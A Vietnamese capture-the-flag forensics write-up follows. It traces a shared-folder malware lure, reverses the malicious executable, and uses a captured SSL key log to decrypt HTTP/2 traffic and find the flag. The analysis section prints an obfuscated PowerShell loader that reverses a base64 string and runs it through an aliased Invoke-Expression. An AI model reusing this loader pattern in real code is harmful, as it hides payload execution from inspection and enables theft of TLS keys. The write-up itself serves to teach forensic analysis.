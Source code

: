 # Sharing Is Not Caring

![ảnh](https://github.com/LDV-SpaceK/AkasecCTF2024/assets/151914246/d168bbd7-f05b-4104-9e36-b2c4de681796)

## Windows Forensics && Network Forensics

* file:
  * disk.ad1
  * network.pcapng

## Tools

* Wireshark
* FTK Imager
* IDA

## Overview

* Nhiều người dùng sử dụng một folder có thể truy cập ở bất cứ tài khoản nào và một người dùng đã tải một file thực thi mã độc đánh cắp file SSL key để giải mã TLS và đọc được dữ liệu gửi đi qua các giao thức HTTP2 

## Analysis

* mình search được từ [web](https://answers.microsoft.com/en-us/windows/forum/all/sharing-folders-across-local-users-on-one-pc-in/91a33d05-29eb-499c-9f7a-8e1db89e7f57)

![ảnh](https://github.com/LDV-SpaceK/AkasecCTF2024/assets/151914246/7de0829b-dc01-43e1-b326-574c433efefd)

* sử dụng FTK Imager phân tích file ad1

![ảnh](https://github.com/LDV-SpaceK/AkasecCTF2024/assets/151914246/29f7dc78-2999-4de4-aa22-8443e94c232f)

* tại C:\Users\Public\Documents mình đã thấy có một file txt thông báo cho mọi người tải file gì đó từ link để boost ram

![ảnh](https://github.com/LDV-SpaceK/AkasecCTF2024/assets/151914246/2c00d011-f8e6-4c8d-a0c0-b38ab04384bc)

* sau khi tải file này xuống, sử dụng IDA để phân tích file

![ảnh](https://github.com/LDV-SpaceK/AkasecCTF2024/assets/151914246/f27ca3d0-2d86-4f22-8b6f-f7ee1a72364e)

* có một đoạn code powershell được ẩn giấu ở trong file này

```
$best64code = \"iQWZ0N3bvJGIlJGIuF2Yg0WYyBybuBiLlV3czlGIsF2Yp5GajVGdgI3bmBSeyJ3bzJCIy9mcyVULlRXaydlCNoQDpcSZulGajFWTnACLlxWaGd2bMlXZLx2czRCIscSRMlkRH9ETZV0SMN1UngSZsJWYpJXYWRnbl1mbvJXa25WR0V2U6oTX05WZt52bylmduVkLtVGdzl3UbpQDK0QfK0QZslmRgUGc5RVblRXStASZslmRn9GT5V2SsN3ckACa0FGUtASblRXStcXZOBCIgAiCNsHIpkSZslmRn9GT5V2SsN3ckACa0FGUtQ3clRFKgQ3bu1CKgYWaK0gCNoQDic2bs5SeltGbzNHXr5WacBVVOdUSTxlclJ3bsBHeFBCdl5mclRnbJx1c05WZtV3YvREXjlGbiVHUcNnclNXVcpzQiASPgUGbpZ0ZvxUeltEbzNHJ\" ;\r\n$base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null ;\r\n$LOADCode = [System.text.EnCOdING]::UTF8.getsTRiNg([sysTEm.coNvErT]::FromBASe64stRInG(\"$BaSe64\")) ;\r\n$PWN = \"Inv\"+\"Oke\"+\"-ex\"+\"prE\"+\"SsI\"+\"ON\" ; nEW-aLIas -naMe PWN -ValuE $pWN -foRce ; pwn $lOadCODe ;\r\n
```

* đoạn base64 ở trong đã bị reverse và encode base64, dịch ngược để ra đoạn code ban đầu

![ảnh](https://github.com/LDV-SpaceK/AkasecCTF2024/assets/151914246/6c3c6ad8-78b8-4ce5-b45a-9d416f4d3fa2)

* theo đường dẫn và tìm được file sslkey.log
* trở về với file pcapng và giải mã các packet tls bằng sslkey.log

![ảnh](https://github.com/LDV-SpaceK/AkasecCTF2024/assets/151914246/33043ade-d3bd-456e-9f0a-fd7ee9187cbe)

* filter http2 và tìm string AKASEC

![ảnh](https://github.com/LDV-SpaceK/AkasecCTF2024/assets/151914246/0781f711-8c7e-429f-84bc-d29287c2b0c0)

`AKASEC{B4s1c_M4lw4r3_4nd_PC4P_4n4lys1s}`



